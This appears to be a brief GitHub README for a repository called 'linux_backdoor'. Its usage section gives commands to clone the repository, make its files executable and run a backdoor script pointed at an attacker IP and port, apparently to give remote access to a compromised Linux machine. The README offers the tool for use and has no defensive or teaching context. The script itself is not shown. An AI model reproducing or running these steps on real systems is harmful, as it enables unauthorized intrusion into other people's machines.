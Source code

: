 # linux_backdoor

Usage : 

  git clone https://github.com/KingstonCyberSec/linux_backdoor.git
  
  cd linux_backdoor
  
  chmod +x *
  
  bash backdoor.sh <Attacker IP> <Port>
  
Images :
  
  



